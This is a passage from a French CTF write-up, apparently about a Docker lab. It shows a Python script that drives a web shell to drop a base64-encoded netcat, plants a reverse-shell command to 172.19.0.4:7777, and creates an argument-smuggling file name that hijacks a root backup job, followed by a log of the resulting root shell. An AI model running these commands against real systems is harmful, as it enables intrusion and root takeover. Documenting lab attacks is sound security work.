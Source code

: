 ```python
            response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote(cmd))
            if response.status_code != 200:
                print("Oups, got error code", response.status_code)
                exit()

            if len(data) < 1024:
                break

    sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("base64 -d /tmp/devloop_nc.b64 > /tmp/devloop_nc"))
    sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("chmod +x /tmp/devloop_nc"))

response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("md5sum /tmp/devloop_nc"))
md5sum = md5_regex.search(response.text).group()
if md5sum != "43248ae1630f1e244fcec241ea5ad780":
    print(response.text)
    exit()

print("Great success")

sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("echo '/tmp/devloop_nc -e /bin/sh 172.19.0.4 7777 &' > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/devloop.rdb"))
sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("touch '/var/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e sh devloop.rdb'"))
response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("ls -al /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/"))
print(response.text)
```

Ce script copie un netcat sous forme encodée (base64) vers */tmp* et insère la commande permettant de nous envoyer un reverse shell dans le fichier *rdb* (il faut donc avoir préalablement mis en écoute un ncat/netcat sur le container *Node* de tout à l'heure).  

On attend un peu que le script de backup soit exécuté :  

```plain
Ncat: Connection from 172.19.0.2.
Ncat: Connection from 172.19.0.2:43312.
id
uid=0(root) gid=0(root) groups=0(root)
hostname
www
```

Cool, maintenant on est root sur le container www ce qui nous permet d'accéder au flag de l'utilisateur *somaro* (c09aca7cb02... ) :)  

Bitterish
---------

Maintenant que l'on est root on peut explorer plus en détails le système, en particulier voir les interfaces réseau.  

Vu que *ifconfig* n'est pas présent sur le système et qu'on ne dispose pas ici d'un *Meterpreter* j'ai placé le script d'upload suivant sur le système :  
